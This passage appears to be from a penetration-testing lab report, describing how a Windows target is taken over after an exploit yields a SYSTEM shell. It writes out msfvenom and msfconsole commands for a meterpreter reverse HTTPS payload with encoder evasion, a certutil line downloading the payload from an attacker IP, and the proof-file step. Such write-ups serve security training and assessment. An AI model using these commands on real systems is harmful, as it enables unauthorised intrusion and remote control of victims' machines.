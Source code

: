 To achieve this, I modified exploit HTTP requests to ignore certificates following [this guide](https://stackoverflow.com/questions/15445981/how-do-i-disable-the-security-certificate-check-in-python-requests). (lines 40, 46, 65).

![[Pasted image 20240719000802.png]]

Executing the exploit grants me a privileged shell (as `nt Authority\SYSTEM` user).

![[Pasted image 20240719000904.png]]

Ran `tasklist` to view running tasks, no Antivirus software was found.

![[Pasted image 20240719002155.png]]

Ran `systeminfo` to determine correct architecture.

![[Pasted image 20240719002429.png]]

#### 4.1.4 Privilege Escalation Walkthrough - Reverse Shell

At this point you need to get a full reverse shell.

On the attacker machine: Generate a meterpreter binary.

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f exe -o 443.exe
```

From the pseudo-shell: Transfer the meterpreter binary using `certutil`.

```powershell
certutil -urlcache -f http://10.9.4.112:80/bin/x64/443.exe C:\Windows\Tasks\443.exe
```

On the Kali machine: Start a metasploit listener and execute the meterpreter binary on the target machine.

```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; set EnableStageEncoding true; set StageEncoder x86/shikata_ga_nai; run"
```

![[Pasted image 20240719003641.png]]

From the pseudo-shell: Execute the binary.

```bash
C:\Windows\Tasks\443.exe
```

Check the metasploit listener, a privileged metasploit session starts:

![[Pasted image 20240719004051.png]]

#### 4.1.5 Post Exploitation

**Proof.txt**:

```powershell
whoami && ipconfig && type proof.txt
```

![[Pasted image 20240719013351.png]]
